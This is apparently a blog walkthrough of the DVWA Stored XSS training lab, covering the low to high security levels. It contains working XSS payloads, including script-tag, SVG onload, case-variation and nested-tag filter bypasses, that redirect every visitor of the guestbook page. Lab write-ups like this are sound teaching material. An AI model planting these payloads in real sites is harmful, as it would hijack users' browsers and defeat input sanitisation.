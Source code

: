 ```yaml
---
title: DVWA - XSS (Stored)
date: 2023-12-17
categories: [DVWA]
tags: [dvwa, xss, xss-stored, cross-site-scripting, javascript]
img_path: /assets/dvwa/xss_stored
published: true
image:
    path: ../dvwa_logo.png
---
```


## Information

- [How to install dvwa on Kali](https://www.kali.org/tools/dvwa/).
- [Official GitHub repository](https://github.com/digininja/DVWA).

> The DVWA server itself contains instructions about almost everything.

_**Damn Vulnerable Web Application (DVWA)** is a PHP/MySQL web application that is damn vulnerable. Its main goal is to be an aid for security professionals to test their skills and tools in a legal environment, help web developers better understand the processes of securing web applications and to aid both students & teachers to learn about web application security in a controlled class room environment._

_The aim of DVWA is to practice some of the most common web vulnerabilities, with various levels of difficultly, with a simple straightforward interface._

![](dvwa_home.png){: width='70%' }

The DVWA server has **4 different security levels** which can be set as seen below:

![](security_levels.png){: width='70%' }

- **Low**: This security level is completely vulnerable and has no security measures at all. It's use is to be as an example of how web application vulnerabilities manifest through bad coding practices and to serve as a platform to teach or learn basic exploitation techniques.
- **Medium**: This setting is mainly to give an example to the user of bad security practices, where the developer has tried but failed to secure an application. It also acts as a challenge to users to refine their exploitation techniques.
- **High**: This option is an extension to the medium difficulty, with a mixture of harder or alternative bad practices to attempt to secure the code. The vulnerability may not allow the same extent of the exploitation, similar in various Capture The Flags (CTFs) competitions.
- **Impossible**: This level should be secure against all vulnerabilities. It is used to compare the vulnerable source code to the secure source code.

## Cross-Site Scripting (XSS) (Stored)

XSS attacks are a type of injection problem, in which malicious scripts are injected into the otherwise benign and trusted web sites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application using input from a user in the output, without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user's browser has no way to know that the script should not be trusted, and will execute the JavaScript. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by your browser and used with that site. These scripts can even rewrite the content of the HTML page.

The **stored XSS is stored in the database**. The **stored XSS is permanent**, until the database is reset or the payload is manually deleted.

**Objective**: Redirect everyone to a web page of your choosing.

## Security: Low
> _Low level will not check the requested input, before including it to be used in the output text ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/xss_stored/xss_stored_low_source.php))._

1. There are 2 input fields: `Name` and `Message`. Let's start with something simple to see if it works:

    ```javascript
    <script>alert("XSS")</script>
    ```

    ![](low_test.png)

2. Let's try the payload we used in both previous sections, [DOM](https://cspanias.github.io/posts/DVWA-XSS-(DOM)/) and [Reflected](https://cspanias.github.io/posts/DVWA-XSS-(Reflected)/) XSS, but this time instead of stealing the cookie we will redirect the users to another site:

    ```javascript
    <script>window.location='https://cspanias.github.i
    ```

3. So it seems that a character limit is set for both fields that does not allows us to input our payload. We can modify the character length as follows:

    ![](max_length.png)

    The `maxlength` is set to 50 characters, so let's change that to 250:

    ![](max_length_250.png)

4. Let's try inserting our payload again:

    ```javascript
    <script>window.location='https://cspanias.github.io/'</script>
    ```

    Once we press enter:

    ![](low_redirection.png)

    Now, if we go back to DVWA home, and we click on the `XSS (Stored)` tab, we will be automatically redirected to https://cspanias.github.io.

5. For clearing the guestbook, we need to go to the DVWA homepage and change the security level to Impossible. Once this is done, we can safely go to the XSS (Stored) tab and clear the guestbook:

    ![](clear_guestbook_1.png)

    ![](clear_guestbook_2.png)

## Security: Medium
> _The developer had added some protection, however hasn't done every field the same way ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/xss_stored/xss_stored_medium_source.php))._

1. This time the developer has put a great effort in sanitizing the `Message` field, but not so much the `Name` field. For the latter, the `<script>` tag is getting removed, so we can try any of the methods used on the [XSS (Reflected)](https://cspanias.github.io/posts/DVWA-XSS-(Reflected)/#security-medium) task, after first changing the field's `maxlength`:

    ![](medium_max_length.png)

    ```javascript
    <svg/onload=window.location='https://cspanias.github.io/'>
    ```

    ```javascript
    <SCRIPT>window.location='https://cspanias.github.io/'</script>
    ```

    ```javascript
    <scr<script>ipt>window.location='https://cspanias.github.io/'</script>
    ```

    ![](low_redirection.png)
    
## Security: High
> _The developer believe they have disabled all script usage by removing the pattern `<s*c*r*i*p*t` ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/xss_stored/xss_stored_high_source.php))._

1. This time the developer changed the blacklisted pattern to `<s*c*r*i*p*t`, exactly like the High level of the [XSS (Reflected)](https://cspanias.github.io/posts/DVWA-XSS-(Reflected)/#security-medium) task. This blocks our last two attacks from the Medium level as they include the `<script>` tag, but not the first one:

    ```javascript
    <svg/onload=window.location='https://cspanias.github.io/'>
    ```

    ![](low_redirection.png)

    > Don't forget to increase the value of the `maxlength` variable.

## Security: Impossible
> _Using inbuilt PHP functions, such as [`htmlspecialchars()`](https://secure.php.net/manual/en/function.htmlspecialchars.php), its possible to escape any values which would alter the behaviour of the input ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/xss_stored/xss_stored_impossible_source.php))._

## Resources

- Cryptocat's [video walkthrough](https://www.youtube.com/watch?v=P1I9UGpGdrU).
- OWASP's [Cross Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/).
- GitHub's [XSS Payload List](https://github.com/1N3/IntruderPayloads/blob/master/FuzzLists/xss_payloads_quick.txt).